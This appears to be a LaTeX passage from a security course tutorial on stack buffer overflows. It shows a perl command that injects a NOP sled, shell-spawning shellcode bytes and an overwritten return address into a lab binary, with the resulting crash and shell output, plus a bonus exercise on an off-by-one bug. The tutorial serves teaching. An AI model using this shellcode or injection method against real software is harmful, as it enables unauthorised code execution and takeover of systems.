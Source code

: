 \documentclass{article}
\begin{document}
\noindent Finally, note that addresses inside \lstinline{gdb} and outside of \lstinline{gdb} can change!
Your shellcode will probably not run the same if passed on the command line with:
\begin{lstlisting}
./vulnerable `perl -e 'print "\x90"x21  
    . "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88
        \x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd
        \x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4e\x41\x41\x41
        \x41\x42\x42\x42\x42" 
    . "\x40\xf2\xff\xbf"'` //return address
?????????????????????1??F1?1??[1??C??C
                                    ?
                                        ??S
                                       ?????/bin/shNAAAABBBB@???
Illegal instruction
\end{lstlisting}
\noindent To fix this you need to find where the address is and this can/will change, here
is the output from my VM, but again your addresses may change different
(and I didn't guess first change):
\begin{lstlisting}[mathescape=false]
./vulnerable `perl -e 'print "\x90"x21  
    . "..." . "\x90\xf2\xff\xbf"'` //close new return address
?????????????????????1??F1?1??[1??C??C
                                    ?
                                        ??S
                                       ?????/bin/shNAAAABBBB@???
$
\end{lstlisting}
\noindent By now you should be able to reproduced the above behaviour so you can
progress with the tutorial.\\


\noindent BONUS: Last week we also had "\lstinline{exploitme.c}" that has potential ways
to manipulate the stack due to an off by one error. See if you can inject your
shellcode here. Note that this will probably require compiling with clang
instead of \lstinline{gcc} and may be tricky, this is purely a bonus if you have time, NOT a priority.

\newpage
\end{document}
